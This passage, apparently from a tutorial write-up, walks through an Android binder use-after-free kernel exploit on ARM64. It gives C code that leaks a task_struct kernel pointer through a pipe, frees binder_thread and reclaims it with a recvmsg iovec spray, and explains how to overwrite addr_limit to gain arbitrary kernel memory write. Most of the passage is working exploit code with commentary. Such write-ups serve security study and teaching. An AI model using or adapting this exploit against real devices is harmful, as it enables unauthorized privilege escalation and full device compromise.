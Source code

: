 ```c
nBytesRead = read(READ_PIPE, pipe_read_buffer, sizeof(pipe_read_buffer));

if (nBytesRead != PAGE_SIZE) {
    printf("\t[-] parent failed to read dummy data: 0x%x instead of 0x%x", nBytesRead, PAGE_SIZE);
    exit(-1);
}

/* the task_struct kptr is at offset 0xE8 */
task_struct_kptr = *(uint64_t*)(pipe_read_buffer + PIPE_READ_KPTR_OFFSET);
```

Note that all macros like `READ_PIPE` or `KREAD_PIPE` and `WRITE_PIPE` or `KWRITE_PIPE` are just wrappers for the corresponding pipe for reading or writing.

**Arbitrary Write**

Now it's time to use the unlink primitive to get an arbitrary write, once we get it, we'll be able to overwrite `addr_limit` in `task_struct` with 0xFFFFFFFFFFFFFFFE (since on ARM64 there's a check against  `addr_limit` which doesn't allow to set it to 0xFFFFFFFFFFFFFFFF), so that we can write to the whole memory space (since `addr_limit` indicates the maximum address that you can write to).

This time we'll use `socketpair()` since there're some technical issues which doesn't make us able to use pipes to spray iovec array, so we create the socketpair, and `write()` a random byte (it's needed for initialization), like the previous stage we create a child process, which sleeps for 2 seconds, in the meanwhile we free `binder_thread` and spray our iovec array, this time using `recvmsg()`.

```c
[...]
/* garbage data */
char garbage_data[] = { 0x41 };

printf("\t[+] setting up a socketpair\n");
if( socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fd) == -1 ) {
    printf("\t[-] failed to create socketpair\n");
    return -1;
}

/* needed to "init" recvmsg() */
printf("\t[+] writing garbage to the socket\n");
nBytesWritten = write(WRITE_SOCK, &garbage_data, sizeof(garbage_data));

if(nBytesWritten != sizeof(garbage_data)) {
    printf("\t[-] write() returned 0x%x instead of 0x%lx\n", nBytesWritten, sizeof(garbage_data));
    exit(-1);
}

pid_t child = fork();

if (!child) {
    /* used to avoid race conditions */
    sleep(2);
    [...]
}

/* free binder_thread struct which is gonna be reallocated by the child's write() */
binder_thread_free();

struct msghdr message = {0};
message.msg_iov = iovec;
message.msg_iovlen = IOVEC_SIZE;

/* this reallocates the binder_thread struct with our iovecs */
int received_bytes_addr_limit = recvmsg(RECVMSG_SOCK, &message, MSG_WAITALL);
```
